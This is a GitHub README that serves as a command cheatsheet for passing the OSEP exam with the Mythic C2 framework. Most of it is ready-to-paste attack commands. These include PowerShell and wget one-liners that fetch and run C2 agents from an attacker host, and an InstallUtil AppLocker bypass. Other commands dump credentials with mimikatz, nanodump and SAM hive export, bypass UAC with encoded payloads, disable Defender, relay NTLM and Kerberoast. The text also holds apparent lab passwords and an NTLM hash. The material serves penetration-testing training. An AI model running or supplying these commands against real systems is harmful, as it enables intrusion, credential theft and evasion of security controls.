

# Mythic Cheatsheet for OSEP

## Introduction 

This repo contains my full cheatsheet and code I used to pass the OSEP using [Mythic C2](https://github.com/its-a-feature/Mythic). I've try to keep everything simple and direct and I've try to mention and link every tool and code of it's owner. 

If you want more context go to my blog post:

[https://r4ulcl.com/posts/passing-the-osep-exam-using-mythic-c2](https://r4ulcl.com/posts/passing-the-osep-exam-using-mythic-c2)


> Important note: this is not a cheatsheet for performing real penetration tests or real Red Teaming; this is a collection of commands created with minimal effort to meet the OSEP's "evasion" requirements.

## Table of Contents 

- [Mythic Cheatsheet for OSEP](#mythic-cheatsheet-for-osep)
  * [Introduction](#introduction)
  * [Auto generate files for different IPs](#auto-generate-files-for-different-ips)
    + [Usage](#usage)
    + [Personalizing the Mythic config files](#personalizing-the-mythic-config-files)
  * [Cheatsheet](#cheatsheet)
    + [One liner PowerShell](#one-liner-powershell)
    + [One liner PowerShell --enc](#one-liner-powershell---enc)
      - [Generate B64 encode PowerShell command](#generate-b64-encode-powershell-command)
        * [Cyberchef](#cyberchef)
        * [PowerShell](#powershell)
        * [Python3](#python3)
    + [One liner InstallUtil.exe enc.txt](#one-liner-installutilexe-enctxt)
    + [One liner Linux](#one-liner-linux)
    + [Bloodhound](#bloodhound)
    + [mimikatz](#mimikatz)
    + [WinPeass](#winpeass)
    + [PrivEscCheck](#privesccheck)
    + [PowerUp](#powerup)
    + [SeatBelt](#seatbelt)
    + [PowerView](#powerview)
    + [Kerberoast](#kerberoast)
    + [Print Spooler](#print-spooler)
    + [Nanodump](#nanodump)
    + [SAM REG](#sam-reg)
    + [UAC](#uac)
      - [UAC Check](#uac-check)
      - [Check admin](#check-admin)
      - [UAC BOF](#uac-bof)
      - [SharpBypassUAC option](#sharpbypassuac-option)
    + [Powershell history](#powershell-history)
    + [Potato](#potato)
    + [Socks](#socks)
    + [Open ports](#open-ports)
    + [Port scanner](#port-scanner)
      - [linux](#linux)
    + [Upload TCP Payload](#upload-tcp-payload)
    + [Disable Defender](#disable-defender)
    + [RDP](#rdp)
  * [Other](#other)
    + [MSSQL dirtree RELAY RCE](#mssql-dirtree-relay-rce)
    + [gobuster](#gobuster)
    + [ffuf](#ffuf)
    + [bloodhound-python from bash](#bloodhound-python-from-bash)
    + [Kerberoast Linux](#kerberoast-linux)
  * [References](#references)


## Auto generate files for different IPs
Both in the lab and in the exam, the VPN IP is different, so every time you start a new lab or exam, all the configurations with the hardcoded IP are invalid and must be changed. This affects Mythic in a more exaggerated way, since the payloads must be recompiled. To avoid compiling as much as possible, my entire workflow used in the lab and exam is based on an automation script to autogenerate the payloads and modify the different PowerShell scripts I always used. I also use tools such as [NetLoader](https://github.com/Flangvik/NetLoader) modified for evasion that allow remote loading, so it is not necessary to recompile code.


### Usage

Download the GitHub repository: 
```
git clone https://github.com/r4ulcl/Mythic-CheatSheet
```

Copy/Download any utils in the utils folder, like `PowerUp.ps1`, etc. Check the [README.md](tree/main/scripts/utils) in utils. 


Go to the `scripts` folder.

```
cd Mythic-CheatSheet
cd scripts
```

Change password in the script to match your Mythic credentials.  
```
cd mythicConfig
nano generatePayloads.py
```

Create a new folder and execute the script with the new IP. 
> Note: Before executing the script is important to have installed the agent Apollo and Poseidon and the HTTP Profile. 
```
mkdir exam
cd exam
bash /route-to-repo/Mythic-CheatSheet/scripts/generate.sh http://192.168.45.90 8080
```

In this case the VPN IP is `192.168.45.90` and we will publish everything in the port `8080` with the following command. 

```
python -m http.server 8080 --bind 192.168.45.90
```
> Note: `--bind 192.168.45.90` is to only listen in that interface. 

### Personalizing the Mythic config files

To update the Mythic config files the best option is just crate a Payload using the Mythic web GUI, configuring everything and when the Payload is ready, click `ACTIONS` and `Export Payload Config`. That will download the `apollo.exe.json` config file that can replace the current one. 

> Note: The `apollo.exe.json`  must have that name to be used in the script, next to `apollo.bin.json` and `poseidon.bin.json`. 



## Cheatsheet

> Note: REPLACE IP `192.168.45.90` with your VPN IP and port `8080`

> Note2: All the commands that have a `#powershell_import` or `#register_assembly` are commands to execute without the `#` and use the popup in the GUI to choose the correct `ps1` script or `exe`

### One liner PowerShell

Download and execute a remote PowerShell AMSI bypass and Loader in memory to load Mythic Apollo agent.

```
powershell -c 'IEX (New-Object Net.WebClient).DownloadString("http://192.168.45.90:8080/am.txt")'

powershell -c 'IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.90:8080/am.txt\")'
```

Shorter in memory download and execute.

```
IEX([Net.Webclient]::new().DownloadString("http://192.168.45.90:8080/am.txt"))
```

### One liner PowerShell --enc

Run a Base64 encoded PowerShell command.

```
powershell -e KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA1ADoAOAAwADgAMAAvAGEAbQAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA=
```

#### Generate B64 encode PowerShell command
Generate a Base64 encoded PowerShell command (UTF-16LE) LINK for use with `--enc` or `-e`. 
##### Cyberchef
[Cyberchef](https://cyberchef.org/#recipe=From_Base64%28'A-Za-z0-9%2B/%3D',true,false/disabled%29Decode_text%28'UTF-16LE%20%281200%29'/disabled%29Encode_text%28'UTF-16LE%20%281200%29'%29To_Base64%28'A-Za-z0-9%2B/%3D'%29&input=KE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS45MDo4MDgwL2FtLnR4dCcpIHwgSUVY)
##### PowerShell

```
powershell -Command '$text = "(New-Object System.Net.WebClient).DownloadString('\''http://192.168.45.90:8080/am.txt'\'')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText'
```

##### Python3

```
python3 -c "import base64; print(base64.b64encode('(New-Object System.Net.WebClient).DownloadString(\\'http://192.168.45.90:8080/am.txt\\') | IEX'.encode('utf-16le')).decode())"
```


### One liner InstallUtil.exe enc.txt

Download an encoded edited version of `NetLoader`, decode it to an executable, then execute it via `InstallUtil` to bypass AppLocker.

```
shell "powershell iwr -uri http://192.168.45.90:8080/utils/enc.txt -outfile C:\\windows\\Tasks\\enc.txt;powershell rm C:\\windows\\Tasks\\proc.exe;powershell certutil -decode C:\\windows\\Tasks\\enc.txt C:\\windows\\Tasks\\proc.exe; C:\\windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile=/LogToConsole=false /path=http://192.168.45.90:8080/apollo-local.exe /U C:\\windows\\Tasks\\proc.exe"
```

Same chain without the outer `shell` quoting for direct PowerShell command.

```
powershell iwr -uri http://192.168.45.90:8080/utils/enc.txt -outfile C:\windows\Tasks\enc.txt;powershell rm C:\windows\Tasks\proc.exe;powershell certutil -decode C:\windows\Tasks\enc.txt C:\windows\Tasks\proc.exe; C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile=/LogToConsole=false /path=http://192.168.45.90:8080/apollo-local.exe /U C:\windows\Tasks\proc.exe"
```

### One liner Linux

Download a Poseidon binary to `/tmp`, make it executable, then run it in the background.

```
cd /tmp ; wget http://192.168.45.90:8080/poseidon.bin ; chmod +x /tmp/poseidon.bin ; /tmp/poseidon.bin & 
```

### Bloodhound

Collect AD data with `SharpHound` PowerShell.

> First, `powershell_import` and import the sharphound.ps1 script.

```
#powershell_import SharpHound.ps1
powershell Invoke-BloodHound -CollectionMethod All
```

### mimikatz

Elevate token and dump credentials and secrets.

```
getsystem

mimikatz {"commands":["privilege::debug", "token::elevate","sekurlsa::logonpasswords"]}
mimikatz {"commands":["privilege::debug","token::elevate","lsadump::secrets","exit" ]}
mimikatz {"commands":["privilege::debug","token::elevate","lsadump::sam","exit" ]}
```

List Kerberos tickets in memory.

```
mimikatz {"commands":["privilege::debug", "token::elevate","sekurlsa::tickets"]}
```

Load mimidrv.sys driver via service creation.

```
upload
shell sc create mimidrv binPath=C:\temp\mimidrv.sys type=kernel start=demand
```

### WinPeass

Run winPEAS via execute_assembly.

> `register_assembly` to register `winPEAS.exe`

```
#register_assembly
execute_assembly {"assembly_name":"winPEAS.exe","assembly_arguments":"-notcolor"}
```

### PrivEscCheck

Run PrivescCheck with extended checks.

```
#powershell_import PrivescCheck.ps1
powershell Invoke-PrivescCheck -Extended
```

### PowerUp

Enumerate checks, then abuse a vulnerable service.

> `powershell_import` and import `PowerUp.ps1` 

```
#powershell_import PowerUp.ps1
powershell Invoke-AllChecks 
```

```
shell sc config SNMPTRAP obj= "NT AUTHORITY\SYSTEM" password= ""
powershell Invoke-ServiceAbuse -Name 'SNMPTRAP' -UserName 'domain\user'
```

### SeatBelt

Collect host situational awareness info.

```
forge_net_Seatbelt "-group=all -full"
```

### PowerView

Enumerate AD ACLs and locate admin access and user locations.

```
#powershell_import PowerView.ps1

powershell Find-InterestingDomainAcl -ResolveGUIDs

powershell Find-LocalAdminAccess -Verbose
powershell Find-DomainUserLocation -Verbose
```

### Kerberoast

Request SPN tickets and save hashes for cracking.

```
forge_net_Rubeus "kerberoast /domain:DENKIAIR-PROD.COM /outfile:hashes.txt"
```

### Print Spooler 

Check spooler named pipe and run spooler related tooling.

```
shell dir \\cdc01\pipe\spoolss
```

Monitor for machine account TGTs.

```
Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

Trigger spooler authentication from one host to another.

```
SpoolSample.exe CDC01 APPSRV01
```

Inject a Kerberos ticket into the current session.

```
Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBa
```

### Nanodump

Dump LSASS and parse the dump locally with pypykatz.

```
nanodump

python3 -m pypykatz lsa minidump 704
```

### SAM REG

Save SAM, SECURITY, and SYSTEM hives for offline secrets extraction. Util when Mimikatz doesn't works. 

```cmd
shell mkdir c:\temp\
shell reg.exe save hklm\sam c:\temp\sam.save
shell reg.exe save hklm\security c:\temp\security.save
shell reg.exe save hklm\system c:\temp\system.save
```

Dump hashes locally using the saved hives.
> After that Download files using GUI and run locally:

```
impacket-secretsdump  -sam sam.save -security security.save -system system.save LOCAL
```

### UAC

#### UAC Check

Check if UAC is enabled via EnableLUA.

```
powershell ((Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System").EnableLUA -eq 1)
```

> `TRUE` is enable

CMD:

```
shell reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA
```

If `EnableLUA` is `0x1` then UAC is enabled.

#### Check admin

Check if the current token is in the local Administrators group.

```
$principal = New-Object Security.Principal.WindowsPrincipal([Security.Principal.WindowsIdentity]::GetCurrent())
$principal.IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
```

#### UAC BOF

Build an encoded PowerShell string for a UAC bypass payload.

```
$script = "powershell iwr -uri http://192.168.45.90:8080/enc.txt -outfile C:\\windows\\Tasks\\enc.txt;powershell rm C:\\windows\\Tasks\\proc.exe;powershell certutil -decode C:\\windows\\Tasks\\enc.txt C:\\windows\\Tasks\\proc.exe; C:\\windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile=/LogToConsole=false /path=http://192.168.45.90:8080/apollo-local.exe /U C:\\windows\\Tasks\\proc.exe"

[Convert]==ToBase64String([Text.Encoding]==Unicode.GetBytes($script))
```

> Run the BOF with the encoded PowerShell command.

```
execute_coff {"coff_name":"uacbypass.x64.o","function_name":"go","timeout":30,"coff_arguments":"wchar","powershell.exe -WindowStyle Hidden -e cABvAHcAZQByAHMAaABlAGwAbAAgAGkAdwByACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMwA0ADoAOAAwADgAMQAvAGUAbgBjAC4AdAB4AHQAIAAtAG8AdQB0AGYAaQBsAGUAIABDADoAXABcAFcAaQBuAGQAbwB3AHMAXABcAFQAYQBzAGsAcwBcAFwAZQBuAGMALgB0AHgAdAA7AHAAbwB3AGUAcgBzAGgAZQBsAGwAIAByAG0AIABDADoAXABcAFcAaQBuAGQAbwB3AHMAXABcAFQAYQBzAGsAcwBcAFwAZwBpAG0AbQBlADMALgBlAHgAZQA7AHAAbwB3AGUAcgBzAGgAZQBsAGwAIABjAGUAcgB0AHUAdABpAGwAIAAtAGQAZQBjAG8AZABlACAAQwA6AFwAXABXAGkAbgBkAG8AdwBzAFwAXABUAGEAcwBrAHMAXABcAGUAbgBjAC4AdAB4AHQAIABDADoAXABcAFcAaQBuAGQAbwB3AHMAXABcAFQAYQBzAGsAcwBcAFwAZwBpAG0AbQBlADMALgBlAHgAZQA7ACAAQwA6AFwAXABXAGkAbgBkAG8AdwBzAFwAXABNAGkAYwByAG8AcwBvAGYAdAAuAE4ARQBUAFwAXABGAHIAYQBtAGUAdwBvAHIAawA2ADQAXABcAHYANAAuADAALgAzADAAMwAxADkAXABcAEkAbgBzAHQAYQBsAGwAVQB0AGkAbAAuAGUAeABlACAALwBsAG8AZwBmAGkAbABlAD0ALwBMAG8AZwBUAG8AQwBvAG4AcwBvAGwAZQA9AGYAYQBsAHMAZQAgAC8AcABhAHQAaAA9AGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADUAOAAuADEAMgA5ADoAOAAwADgAMQAvAGEAcABvAGwAbABvAC0AbABvAGMAYQBsAC4AZQB4AGUAIAAvAFUAIABDADoAXABcAFcAaQBuAGQAbwB3AHMAXABcAFQAYQBzAGsAcwBcAFwAZwBpAG0AbQBlADMALgBlAHgAZQA="}
```

> You can use https://github.com/icyguider/UAC-BOF-Bonanza, https://github.com/hackerhouse-opensource/iscsicpl_bypassUAC, etc. 

#### SharpBypassUAC option

Register SharpBypassUAC.

```
forge_register {"collectionName":"SharpCollection","commandName":"SharpBypassUAC","remove":false}
```

### Powershell history

Locate and read PSReadLine history.

```
powershell (Get-PSReadlineOption).HistorySavePath
```

```
powershell cat (Get-PSReadlineOption).HistorySavePath
```

```
cat C:\Users\administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```
cat C:\Users\administrator\AppData\Roaming\Microsoft\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Potato

Run SweetPotato or EfsPotato style escalation to spawn a payload as SYSTEM.

```
#register_assembly SweetPotato.exe

execute_assembly {"assembly_name":"SweetPotato.exe","assembly_arguments":"-p C:\\temp\\apollo-local.exe"}
```

```
upload - SharpEfsPotato
upload - NetLoader
shell c:\temp\SharpEfsPotato.exe -p C:\temp\NetLoader.exe -a "-Path http://192.168.45.90:8080/apollo-local.exe"
```

### Socks

Start a SOCKS proxy on port 7001. Util if there is no SSH accessible to tunnel traffic to internal network or to access a second sub network. 

```
socks {"port":7001,"action":"start","username":"","password":""}
```

### Open ports

Show listening ports and connections with PIDs.

```
shell netstat -ano
```

### Port scanner
Run a BOF port scan against a host with a large port list.

[https://github.com/fyxme/portscanbof](https://github.com/fyxme/portscanbof)

[https://github.com/HeckerBirb/top-nmap-ports-csv](https://github.com/HeckerBirb/top-nmap-ports-csv)

```
execute_coff {"coff_name":"portscanner.bof.o","function_name":"go","timeout":30,"coff_arguments":[["string","DENKIAIR-OPS.COM"],["string","80,23,443,21,22,25,3389,110,445,139,143,53,135,3306,8080,1723,111,995,993,5900,1025,587,8888,199,1720,465,548,113,81,6001,10000,514,5060,179,1026,2000,8443,8000,32768,554,26,1433,49152,2001,515,8008,49154,1027,5666,646,5000,5631,631,49153,8081,2049,88,79,5800,106,2121,1110,49155,6000,513,990,5357,427,49156,543,544,5101,144,7,389,8009,3128,444,9999,5009,7070,5190,3000,5432,1900,3986,13,1029,9,5051,6646,49157,1028,873,1755,2717,4899,9100,119,37,1000,3001,5001,82,10010,1030,9090,2107,1024,2103,6004,1801,5050,19,8031,1041,255,1049,1048,2967,1053,3703,1056,1065,1064,1054,17,808,3689,1031,1044,1071,5901,100,9102,8010,2869,1039,5120,4001,9000,2105,636,1038,2601,1,7000,1066,1069,625,311,280,254,4000,1993,1761,5003,2002,2005,1998,1032,1050,6112,3690,1521,2161,6002,1080,2401,4045,902,7937,787,1058,2383,32771,1033,1040,1059,50000,5555,10001,1494,593,2301,3,1,3268,7938,1234,1022,1074,8002,1036,1035,9001,1037,464,497,1935,6666,2003,6543,1352,24,3269,1111,407,500,20,2006,3260,15000,1218,1034,4444,264,2004,33,1042,42510,999,3052,1023,1068,222,7100,888,4827,1999,563,1717,2008,992,32770,32772,7001,8082,2007,740,5550,2009,5801,1043,512,2701,7019,50001,1700,4662,2065,2010,42,9535,2602,3333,161,5100,5002,2604,4002,6059,1047,8192,8193,2702,6789,9595,1051,9594,9593,16993,16992,5226,5225,32769,3283,1052,8194,1055,1062,9415,8701,8652,8651,8089,65389,65000,64680,64623,55600,55555,52869,35500,33354,23502,20828,1311,1060,4443,730,731,709,1067,13782,5902,366,9050,1002,85,5500,5431,1864,1863,8085,51103,49999,45100,10243,49,3495,6667,90,475,27000,1503,6881,1500,8021,340,78,5566,8088,2222,9071,8899,6005,9876,1501,5102,32774,32773,9101,5679,163,648,146,1666,901,83,9207,8001,8083,5004,3476,8084,5214,14238,12345,912,30,2605,2030,6,541,8007,3005,4,1248,2500,880,306,4242,1097,9009,2525,1086,1088,8291,52822,6101,900,7200,2809,395,800,32775,12000,1083,211,987,705,20005,711,13783,6969,3071,5269,5222,1085,1046,5987,5989,5988,2190,11967,8600,3766,7627,8087,30000,9010,7741,14000,3367,1099,1098,3031,2718,6580,15002,4129,6901,3827,3580,2144,9900,8181,3801,1718,2811,9080,2135,1045,2399,3017,10002,1148,9002,8873,2875,9011,5718,8086,3998,2607,11110,4126,5911,5910,9618,2381,1096,3300,3351,1073,8333,3784,5633,15660,6123,3211,1078,3659,3551,2260,2160,2100,16001,3325,3323,1104,9968,9503,9502,9485,9290,9220,8994,8649,8222,7911,7625,7106,65129,63331,6156,6129,60020,5962,5961,5960,5959,5925,5877,5825,5810,58080,57294,50800"]]}
```

#### linux

Scan a host for many common ports from Linux.

```
portscan {"hosts":["vault01.denkiair-prod.com"],"ports":["80","23","443","21","22","25","3389","110","445","139","143","53","135","3306","8080","1723","111","995","993","5900","1025","587","8888","199","1720","465","548","113","81","6001","10000","514","5060","179","1026","2000","8443","8000","32768","554","26","1433","49152","2001","515","8008","49154","1027","5666","646","5000","5631","631","49153","8081","2049","88","79","5800","106","2121","1110","49155","6000","513","990","5357","427","49156","543","544","5101","144","7","389","8009","3128","444","9999","5009","7070","5190","3000","5432","1900","3986","13","1029","9","5051","6646","49157","1028","873","1755","2717","4899","9100","119","37","1000","3001","5001","82","10010","1030","9090","2107","1024","2103","6004","1801","5050","19","8031","1041","255","1049","1048","2967","1053","3703","1056","1065","1064","1054","17","808","3689","1031","1044","1071","5901","100","9102","8010","2869","1039","5120","4001","9000","2105","636","1038","2601","1","7000","1066","1069","625","311","280","254","4000","1993","1761","5003","2002","2005","1998","1032","1050","6112","3690","1521","2161","6002","1080","2401","4045","902","7937","787","1058","2383","32771","1033","1040","1059","50000","5555","10001","1494","593","2301","3","1","3268","7938","1234","1022","1074","8002","1036","1035","9001","1037","464","497","1935","6666","2003","6543","1352","24","3269","1111","407","500","20","2006","3260","15000","1218","1034","4444","264","2004","33","1042","42510","999","3052","1023","1068","222","7100","888","4827","1999","563","1717","2008","992","32770","32772","7001","8082","2007","740","5550","2009","5801","1043","512","2701","7019","50001","1700","4662","2065","2010","42","9535","2602","3333","161","5100","5002","2604","4002","6059","1047","8192","8193","2702","6789","9595","1051","9594","9593","16993","16992","5226","5225","32769","3283","1052","8194","1055","1062","9415","8701","8652","8651","8089","65389","65000","64680","64623","55600","55555","52869","35500","33354","23502","20828","1311","1060","4443","730","731","709","1067","13782","5902","366","9050","1002","85","5500","5431","1864","1863","8085","51103","49999","45100","10243","49","3495","6667","90","475","27000","1503","6881","1500","8021","340","78","5566","8088","2222","9071","8899","6005","9876","1501","5102","32774","32773","9101","5679","163","648","146","1666","901","83","9207","8001","8083","5004","3476","8084","5214","14238","12345","912","30","2605","2030","6","541","8007","3005","4","1248","2500","880","306","4242","1097","9009","2525","1086","1088","8291","52822","6101","900","7200","2809","395","800","32775","12000","1083","211","987","705","20005","711","13783","6969","3071","5269","5222","1085","1046","5987","5989","5988","2190","11967","8600","3766","7627","8087","30000","9010","7741","14000","3367","1099","1098","3031","2718","6580","15002","4129","6901","3827","3580","2144","9900","8181","3801","1718","2811","9080","2135","1045","2399","3017","10002","1148","9002","8873","2875","9011","5718","8086","3998","2607","11110","4126","5911","5910","9618","2381","1096","3300","3351","1073","8333","3784","5633","15660","6123","3211","1078","3659","3551","2260","2160","2100","16001","3325","3323","1104","9968","9503","9502","9485","9290","9220","8994","8649","8222","7911","7625","7106","65129","63331","6156","6129","60020","5962","5961","5960","5959","5925","5877","5825","5810","58080","57294","50800"]}
```

### Upload TCP Payload

Upload a payload, move it to `C:\temp`, execute it, then connect back. this is util when we have RCE but that machine doesn't have communication to us. 

```
mkdir C:\temp
lput /home/kali/shellTemplate/utils/apolloTCP8080.exe .
move C:\Windows\apolloTCP8080.exe C:\temp\
cd C:\temp
apolloTCP8080.exe
```

Establish the session link.

```
link
```

### Disable Defender

Disable multiple Microsoft Defender protections.

```
powershell Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
```

### RDP

Enable RDP and allow it through the firewall, then connect using an RDP client.

```
shell reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```
shell netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

```
proxychains -q xfreerdp3 /v:172.16.208.116 /u:molly.dickinson /p:'D7oG+nC2PA49fX' +compression +clipboard /dynamic-resolution +toggle-fullscreen
```

```
proxychains rdesktop 172.16.208.116 -u matthew.lucas -p 'HtftmSJsvdMyN_' -d DENKIAIR
```

## Other

### MSSQL dirtree RELAY RCE

```
EXECUTE ('master.sys.xp_dirtree "\\192.168.45.90\test"')
```

Crack a captured NetNTLMv2 hash with a wordlist.

```
hashcat -m 5600 hash.txt dict.txt --force
```

Relay captured NTLM to a target and execute a command.

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIANAAwADoAOAAwADgAMAAvAGEAbQAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA='
```

### gobuster

Brute force web directories and paths with common wordlists.

```
gobuster dir -e -u http://192.168.120.132/ -w /usr/share/wordlists/dirb/common.txt
```

### ffuf
Fuzz web paths with ffuf.

```
ffuf -u http://http://172.16.208.112/FUZZ -w /usr/share/wordlists/dirb/common.txt
```


### bloodhound-python from bash

Collect AD data from Linux and output a zip for ingestion.

```
proxychains -q  bloodhound-python -u 'user@domain.com' -p password -d domain.com -ns 172.16.245.180 --dns-tcp -c All --zip 
```

### Kerberoast Linux

Alternate SPN enumeration and cracking workflows.

```
impacket-GetUserSPNs
```

```
proxychains -q netexec ldap  DENKIAIR-OPS.COM -u 'DB02$' -H 11fa4c77b840818b6da8ac7bf51883c7 --kerberoasting kerberoasting.txt
```

```
.\hashcat.exe  -m 13100 -a 0  .\test.txt E:\dics\kaonashiWPA100M.txt
```

## References
- https://github.com/chvancooten/OSEP-Code-Snippets
- https://bishopfox.com/blog/passing-the-osep-exam-using-sliver
- https://github.com/Anon-Exploiter/sliver-cheatsheet
- https://github.com/chvancooten/OSEP-Code-Snippets
- https://www.youtube.com/playlist?list=PLJK0fZNGiFU-iKQf9oTVpYjxL72uQUQSA
- [gtfobins](https://gtfobins.github.io/)
- [PayloadsAllTheThings Linux Priv-Esc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#files-containing-passwords)
- [PayloadsAllTheThings windows Priv-Esc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/windows%20-%20Privilege%20Escalation.md#eop---processes-enumeration-and-tasks)
- [https://ippsec.rocks/](https://ippsec.rocks/)
- https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/process_hollowing.vba
- https://github.com/ColeHouston/word-vba-process-hollowing
